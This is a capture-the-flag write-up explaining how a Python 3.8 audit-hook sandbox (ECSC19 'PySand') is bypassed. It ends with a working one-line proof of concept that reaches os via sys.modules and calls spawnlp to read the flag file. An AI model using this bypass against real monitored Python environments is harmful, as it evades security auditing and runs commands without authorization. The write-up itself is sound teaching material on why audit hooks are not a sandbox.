 # PySand (sandbox, python, audithook, sys.modules)
Python 3.8 introduced new audithook feature. You can read more about it in [PEP 578](https://www.python.org/dev/peps/pep-0578/) and [PEP 551](https://www.python.org/dev/peps/pep-0551/). The idea was to increase the ability to monitor suspicious actions taken by attackers. Both documents emphasize that this feature should not be used as prevention mechanism:

```
This proposal does not attempt to restrict functionality, but simply exposes the 
fact that the functionality is being used. Particularly for intrusion scenarios, 
detection is significantly more important than early prevention (as early 
prevention will generally drive attackers to use an alternate, less-detectable, 
approach). The availability of audit hooks alone does not change the attack surface 
of Python in any way, but they enable defenders to integrate Python into their 
environment in ways that are currently not possible.
```

Moreover if you are asking yourself how do we implement sandbox in python, then the answer is simple – we don't. Python [documentation](https://python-security.readthedocs.io/security.html) is very strict about this:

```
Sandbox
Don’t try to build a sandbox inside CPython. The attack surface is too large. 
Python has many introspection features, see for example the inspect module. Python also 
many convenient features which executes code on demand. Examples:

the literal string '\N{Snowman}' imports the unicodedata module
the code to log a warning might be abused to execute code
The good design is to put CPython into a sandbox, not the opposite.
```

## Back to the challenge
In the challenge we are given a simple and at first glance very restrictive sandbox. Every action which invokes audithook is being just stoped and SecurityError is raised.

```python3
#!/usr/bin/env python3.8
import sys

class SecurityError(BaseException):
    pass

def audithook(name, tupla):
    raise SecurityError("Hackers not allowed. Tried to perform {}".format(name))

sys.addaudithook(audithook)
```

You can read which actions invoke audit event [here](https://docs.python.org/3/library/audit_events.html#audit-events). The list is very short and so it is obvious that it doesn't even try to log every malicious action, but just the most suspicious ones. 

So I started looking at avaible functions in [sys](https://docs.python.org/3/library/sys.html) and [os.path](https://docs.python.org/3/library/os.path.html#module-os.path) and [builtins](https://docs.python.org/3/library/functions.html#built-in-funcs) modules. But I couldn't find anything useful which doesn't invoke audit event.

But then I though of [sys.modules](https://docs.python.org/3/library/sys.html#sys.modules). When python3 starts up it already imports more modules then our program. This is some optimization (I guess, I've never checked) mechanism. 
So lets check which modules have been loaded:

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
print(sys.modules)
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, '_io': <module 'io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'posix': <module 'posix' (built-in)>, '_thread': <module '_thread' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' from '/app/Python-3.8.0b1/Lib/codecs.py'>, 'encodings.aliases': <module 'encodings.aliases' from '/app/Python-3.8.0b1/Lib/encodings/aliases.py'>, 'encodings': <module 'encodings' from '/app/Python-3.8.0b1/Lib/encodings/__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/app/Python-3.8.0b1/Lib/encodings/utf_8.py'>, '_signal': <module '_signal' (built-in)>, '__main__': <module '__main__' from '/app/sandbox.py'>, 'encodings.latin_1': <module 'encodings.latin_1' from '/app/Python-3.8.0b1/Lib/encodings/latin_1.py'>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' from '/app/Python-3.8.0b1/Lib/abc.py'>, 'io': <module 'io' from '/app/Python-3.8.0b1/Lib/io.py'>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' from '/app/Python-3.8.0b1/Lib/stat.py'>, 'genericpath': <module 'genericpath' from '/app/Python-3.8.0b1/Lib/genericpath.py'>, 'posixpath': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, 'os.path': <module 'posixpath' from '/app/Python-3.8.0b1/Lib/posixpath.py'>, '_collections_abc': <module '_collections_abc' from '/app/Python-3.8.0b1/Lib/_collections_abc.py'>, 'os': <module 'os' from '/app/Python-3.8.0b1/Lib/os.py'>, '_sitebuiltins': <module '_sitebuiltins' from '/app/Python-3.8.0b1/Lib/_sitebuiltins.py'>, 'site': <module 'site' from '/app/Python-3.8.0b1/Lib/site.py'>, '_locale': <module '_locale' (built-in)>, '_bootlocale': <module '_bootlocale' from '/app/Python-3.8.0b1/Lib/_bootlocale.py'>}
```

Nice! Definitely more then `sys`, `os.path` and `builtins`! What is interesting we can see that the `os` module has been imported as well.
By searching the [os](https://docs.python.org/3/library/os.html) documentation we can find many interesting functions such as `os.open`, `os.system` etc. Most of them are noisy and result in rasing audit event. However there are also function like `os.spawnlp` which we can use.

The last question is, how do we access the `os` module? If we try to call os.spawnlp we will fail. But the answer is very simple. Just reference `os` module via `sys.modules['os']`.

## POC

```console
$ nc ecsc19.hack.cert.pl 25011
Give me code:
sys.modules['os'].spawnlp(sys.modules['os'].P_WAIT, '/bin/cat', 'cat', '/app/flag.txt')
ecsc19{Aud1tButDontTrust}
```



## References:
1) https://docs.python.org/3/library/audit_events.html#audit-events
2) https://daddycocoaman.dev/posts/bypassing-python38-audit-hooks-part-1/
3) https://www.python.org/dev/peps/pep-0551/
3) https://www.python.org/dev/peps/pep-0578/